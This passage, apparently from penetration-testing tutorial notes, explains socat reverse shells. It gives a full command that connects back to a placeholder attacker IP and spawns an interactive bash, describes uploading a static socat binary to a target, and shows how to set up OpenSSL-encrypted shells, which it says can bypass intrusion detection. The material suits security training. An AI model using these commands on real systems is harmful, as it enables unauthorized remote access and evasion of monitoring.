The target must have socat installed. it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**, creates the process in a new session
* **sane**, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command.

**Socat Encrypted Shells**[**​**](broken-reference)

[Aditional information](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine: This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

We then need to merge the two created files into a single .pem file:

```
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
